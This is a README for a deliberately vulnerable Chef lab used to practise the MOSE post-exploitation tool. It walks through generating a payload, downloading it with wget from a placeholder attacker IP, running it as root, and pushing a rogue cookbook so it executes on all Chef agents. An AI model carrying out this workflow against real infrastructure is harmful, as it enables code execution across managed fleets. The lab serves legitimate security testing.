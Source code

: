 # chef-test-lab

[![License](https://img.shields.io/github/license/master-of-servers/chef-test-lab?label=License&style=flat&color=blue&logo=github)](https://github.com/master-of-servers/chef-test-lab/blob/main/LICENSE)
[![Pre-commit](https://github.com/master-of-servers/chef-test-lab/actions/workflows/pre-commit.yaml/badge.svg)](https://github.com/master-of-servers/chef-test-lab/actions/workflows/pre-commit.yaml)
[![Test chef-test-lab](https://github.com/master-of-servers/chef-test-lab/actions/workflows/tests.yaml/badge.svg)](https://github.com/master-of-servers/chef-test-lab/actions/workflows/tests.yaml)

Used to create a test lab that can be used to work with MOSE and Chef.

**Warning, take heed: This lab should be run in
a controlled environment; it contains vulnerable assets.**

## Dependencies

You must download and install the following for this environment to work:

- [Vagrant](https://www.vagrantup.com/downloads.html)
- [Docker](https://docs.docker.com/install/)
- [Docker Compose](https://docs.docker.com/compose/install/)

## Vagrant Lab Build Instructions

To create an environment with a Chef Workstation
and a Chef Server that controls multiple agents, run the following command:

```bash
cd vagrant && make build && make run
```

### To run MOSE against the vagrant chef workstation

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE:

   ```bash
   ./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef
   ```

3. Login to the chef workstation:

   ```bash
   # The password is vagrant
   vagrant ssh chef_workstation
   ```

4. Escalate to root with `sudo su`
5. Download the binary from MOSE:

   ```bash
   wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
   ```

6. Run the payload:

   ```bash
   chmod +x chef-linux; ./chef-linux
   ```

7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually:

   ```bash
   # The password is vagrant
   vagrant ssh chef_agent_1
   sudo su
   chef-client
   ```

8. For this example, you should note that a file
   has been created in `/tmp` in all of the chef-agent
   virtual machines, as we specified in step 2.

### To run MOSE against the vagrant chef server

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE:

   ```bash
   ./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef -l <your local ip address> -ep 9090 -rhost chef-server:10.42.42.10
   ```

   2a. The exfil listener time can be set with the `-ep` parameter
   2b. The `-rhost` parameter is a necessity if running against a chef-server.

3. Login to the chef server: `vagrant ssh chef_server` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Back on the attacker's system, specify `n` for the target being a
   workstation and `Y` when prompted for the target being a server
7. Run the payload: `chmod +x chef-linux; ./chef-linux`
8. Use the container that is spawned on the attacking machine as if it
   were a workstation to get the rogue cookbook into place
9. Wait for 30 minutes or ssh into one of the agents
   and kick off the payload manually: `vagrant ssh chef_agent_1`
   (the password is vagrant) <br/>
   9a. Escalate to root with `sudo su` <br/>
   9b. Run `chef-client`
10. For this example, you should note that a file has been
    created in `/tmp` in all of the chef-agent virtual machines,
    as we specified in step 2.

## Docker Lab Build Instructions

To create an environment with a Chef Workstation and a
Chef Server that controls a single agent, run the following command:

```bash
cd docker/basic && make run
```

### To run MOSE against the docker chef workstation

1. Build MOSE using `make build` in the MOSE repo
2. Wait for 15 minutes or so for the environment to start working.
   You can track the progress with this command:

   ```bash
   while true; do sleep 2; docker logs basic-chef-workstation; done
   ```

   You will know it's done when you see this:

   ```yaml
   id: mysql_pw
   password: TheM0stS3cr3T!!!
   user: mysql
   ```

3. Generate a payload with MOSE:

   ```bash
   ./mose -c "touch /tmp/test.txt && echo test >> /tmp/test.txt" -t chef -f "${PWD}/payloads/chef-linux"
   ```

   and be sure to answer `Y` when prompted.

4. Transfer the payload to the chef workstation container:

   ```bash
   docker cp payloads/chef-linux basic-chef-workstation:/chef-linux
   ```

5. Run the payload:

   ```bash
   docker exec -i basic-chef-workstation /bin/bash -c "echo 'n' | /chef-linux"
   ```

6. Wait for 30 minutes or exec into the agent and
   kick off the payload manually:

   ```bash
   docker exec -i basic-chef-agent-1 /bin/bash -c "chef-client"
   ```

7. Observe that a file has been created on the agent
   in `/tmp`:

   ```bash
   docker exec -i basic-chef-agent-1 /bin/bash -c "cat /tmp/test.txt"
   ```

**Please note:**
The docker lab does not support transferring payloads to the
target via the web server. You can however generate a payload with
the `-f` parameter and transfer it via `docker cp`.

To tear down the test environment, run the following command:

```bash
make destroy
```

## Credits

The chef server docker container is provided
courtesy of [this repo](https://github.com/c-buisson/chef-server).
